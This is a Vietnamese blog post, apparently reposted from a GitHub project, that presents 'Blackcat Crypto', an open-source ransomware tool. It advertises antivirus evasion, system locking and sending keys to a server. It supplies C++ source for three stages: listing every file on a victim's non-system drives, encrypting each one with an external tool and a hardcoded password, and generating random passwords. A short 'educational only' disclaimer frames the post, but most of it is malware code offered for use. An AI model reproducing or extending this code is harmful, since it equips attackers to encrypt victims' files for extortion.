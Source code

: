 ```yaml
---
title: Mã Độc Blackcat Crypto
date: 23/06/2021
layout: single
--- 
```



## Mô Tả 
Khuyến Cáo: Công cụ chỉ mang tính chất giáo dục, không sử dụng các mục đích vi phạm pháp luật, tôi và tác giả của bài viết này sẽ không chịu trách nhiệm với hành động của các bạn với mục đích bất hợp pháp nào Cảm Ơn! 

Blackcat Crypto là Crypto-Locker mã nguồn mở. Blackcat Crypto được phát triển bằng Visual C ++. Nó có các tính năng mã hóa tất cả các tập tin, khóa hệ thống và gửi các khóa trở lại máy chủ. Chức năng đa luồng giúp công cụ này mã hóa nhanh hơn.

Khó có thể bị phát hiện bởi Công cụ chống virus.

Sử dụng thuật toán mã hóa 256-bit mạnh mẽ, Khi một tệp được mã hóa, Tệp sẽ hoàn toàn vô dụng nếu không có mật khẩu. Nó chỉ đơn giản là không thể đọc được [ajayrandhawa/Cryptolocker](https://github.com/ajayrandhawa/Cryptolocker)



## Đặc trưng
1. Mã hóa AES mạnh mẽ.
2. Chức năng hệ thống khóa.
3. Mã hóa đa luồng.


![](https://raw.githubusercontent.com/ajayrandhawa/Cryptolocker/master/ezgif-1-e99b3d2b6b39.gif)
 
## Bước 1 (Fetch files)
Lấy tất cả các tệp từ tất cả các ổ đĩa để mã hóa chúng.

Đây là chương trình Visual C ++ lấy tất cả danh sách thư mục & tệp trong ổ đĩa và lưu trữ đường dẫn trong tệp văn bản để mã hóa sử dụng sau này. Tôi sử dụng thư viện Boost C ++ để lấy danh sách tất cả các tệp. Trước tiên hãy thiết lập thư viện Boost để biên dịch chương trình.

[![Language](https://img.shields.io/badge/Lang-c++-blue.svg)

```cpp
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>
#include <stdio.h>
#include <windows.h>

using namespace std;

fstream out_file("data.txt", ios::out);

#define MAX 256

int main(int argc, char* argv[]) {

    int dr_type = 99;
    char dr_avail[MAX];
    char *temp = dr_avail;

    /* 1st we fill the buffer */
    GetLogicalDriveStrings(MAX, dr_avail);
    while (*temp != NULL) { // Split the buffer by null
        dr_type = GetDriveType(temp);

        char skip[10] = "C:\\";

        if (dr_type == 3 && temp[0] != 'C') {

            boost::system::error_code dir_error;

            for (boost::filesystem::recursive_directory_iterator end, dir(temp, dir_error); dir != end; dir.increment(dir_error)) {
                if (dir_error.value()) {
                    cerr << "Error accessing file: " << dir_error.message() << endl;
                }
                else {
                    cout << dir->path() << endl;
                    out_file << dir->path() << "\n";
                }
            }
        }
        temp += lstrlen(temp) + 1;
    }
    out_file.close();
    system("pause");
```

## Bước 2 (Encrypt files)
Trước tiên,  lấy từng đường dẫn tệp từ "data.txt" và gửi tới công cụ crypy này với mã hóa kiểu và mật khẩu. bạn cũng có thể nhúng tất cả chương trình này vào vòng lặp trên để lấy đường dẫn và mã hóa dữ liệu một cách đệ quy.

```cpp
out_file.open("data.txt", ios::in);
    string line;
    while (out_file.good()) {
        getline(out_file, line);
        cout << line << endl;
        std::string cmmd = "crpt.exe -e -p 4321 ";
        cmmd += line;
        system(cmmd.c_str());
    }

```
## Bước 3 (Create Long String Complex Password Function)
Gửi độ dài đến hàm và hàm trả về mật khẩu phức tạp dài được tạo mà bạn có thể sử dụng để mã hóa.
```cpp
string RandomString(int len)
{
    srand(time(0));
    string str = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
    string newstr;
    int pos;
    while (newstr.size() != len) {
        pos = ((rand() % (str.size() - 1)));
        newstr += str.substr(pos, 1);
    }
    return newstr;
}

```

## Bài viết được chia sẻ bởi tác giả [ajayrandhawa/](https://github.com/ajayrandhawa/)

## Chúc may mắn :D

